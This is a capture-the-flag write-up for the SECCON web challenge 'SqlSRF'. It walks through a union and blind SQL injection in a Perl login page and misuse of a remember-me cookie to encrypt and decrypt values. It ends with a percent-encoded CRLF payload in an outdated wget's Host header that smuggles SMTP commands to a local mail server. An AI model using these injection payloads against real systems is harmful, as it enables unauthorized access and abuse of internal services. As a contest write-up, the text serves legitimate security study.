


# SqlSRF (Web, 400p)

```
The root reply the flag to your mail address if you send a mail that subject is "give me flag" to root.
```

In the task initially we get access to a login screen and [source code of the index page](index.pl]).
First goal is to somehow login into the system.

In the sources we can see:

```perl
if($q->param('login') ne '') {
  use DBI;
  my $dbh = DBI->connect('dbi:SQLite:dbname=./.htDB');
  my $sth = $dbh->prepare("SELECT password FROM users WHERE username='".$q->param('user')."';");
  $errmsg = '<h2 style="color:red">Login Error!</h2>';
  eval {
    $sth->execute();
    if(my @row = $sth->fetchrow_array) {
      if($row[0] ne '' && $q->param('pass') ne '' && $row[0] eq &encrypt($q->param('pass'))) {
        $s->param('autheduser', $q->param('user'));
        print "<scr"."ipt>document.location='./menu.cgi';</script>";
        $errmsg = '';
      }
    }
  };
  if($@) {
    $errmsg = '<h2 style="color:red">Database Error!</h2>';
  }
  $dbh->disconnect();
```

There is a clear SQLInjection in the query which is supposed to retrieve the password for given user from the database.
The password is then compared with `&encrypt($q->param('pass'))`.
We can easily inject any password simply by providing username `whateve' union select 'OUR_PASSWORD` but we need to know the encrypted form of `OUR_PASSWORD` for this to work.
Fortunately we can see in the code also:

```perl
my $user = $q->param('user');
//
($q->param('save') eq '1' ? $q->cookie(-name=>'remember', -value=>&encrypt($user), -expires=>'+1M') : undef)
```

If we put username and select "remember me" checkbox, the system will automatically create the cookie with encrypted username.
We can then first put `OUR_PASSWORD` as username, select "remember me", click login and retrieve the encrypted string from the cookie.

Once we manage to login into th system it turns out it's no good because as non-admin user we can only use `netstat` command and we can't use `wget`:



Netstat at least shows that there is SMTP server running there, and the task description says we need to use it to send email to root.

It seems we actually need to login as admin, because right now the system remembers exactly what username we put, and we're logged in as `whateve' union select ...` and not as `admin`.
First step is to retrieve the admin password from database.
This we can do via Blind SQLInjection in the login screen.
We can't get any echo from the database but we can either login or not login, and we can use this as boolean oracle.
So we can do injection in the form `whatever' union select 'OUR_ENCRYPTED_PASSWORD' where (CONDITION) and '1'='1`.
The `CONDITION` here is simply a check on the characters of admin password.

After a moment we get back: `d2f37e101c0e76bcc90b5634a5510f64`.
Now we need to decrypt this password.
It turns out there is an interesting code on the page:

```perl
$user = &decrypt($q->cookie('remember')) if($user eq '' && $q->cookie('remember') ne '');
//
$user = $q->escapeHTML($user);
//
<tr><td>Username:</td><td><input type="text" name="user" value="$user"></td></tr>
```

The page actually takes encrypted string from `remember` cookie, decrypts and puts in the `login` field of the form.
It means we can simply place the recovered password in the cookie, and the page will decrypt it for us.
This way we learn that admin password is `Yes!Kusomon!!`.

Now we're back in the system, this time as admin, and we can run `wget`.
Sadly we can't really change neither of the commands and no command injection tricks work, we can only use what is provided.
We have to use `wget` to send an email!

SMTP and FTP servers are often very permissive when it comes to accepting commands.
They simply ignore incorrect commands and execute correct ones.
What `wget` sends to the designated host is:

```
GET / HTTP/1.1
User-Agent: Wget/1.14 (linux-gnu)
Accept: */*
Host: 127.0.0.1
Connection: Keep-Alive
```

And SMTP server will simply claim that those are all incorrect commands.

We've noticed that `wget` version was outdated, so maybe there is some vulnerability we could use.
Some googling brought us to https://lists.gnu.org/archive/html/bug-wget/2017-03/msg00018.html and this was exactly what we needed.
It turns out we can use newlines and line feeds to modify `Host` header and append additional elements there.
We need to add:

```
HELO 127.0.0.1
MAIL FROM:<shalom@p4.team>
RCPT TO:<root@ymzk01.pwn>
DATA
From: shalom@p4.team
To: root@ymzk01.pwn
Subject: give me flag
.
QUIT
```

So we prepared the payload (with percent escapes):

```
127.0.0.1%0d%0aTest%3a %0aHELO 127.0.0.1%0aMAIL FROM%3a%3cshalom%40p4.team%3e%0aRCPT TO%3a%3croot%40ymzk01.pwn%3e%0aDATA%0aFrom%3a shalom%40p4.team%0aTo%3a root%40ymzk01.pwn%0aSubject%3a give me flag%0d%0a.%0d%0a%0aQUIT%0a:25
```

And we got:



And right after that we've received the flag, encrypted again with the same encryption as passwords.
So we used the remember cookie trick again and finally recovered the flag: `SECCON{SSRFisMyFriend!}`
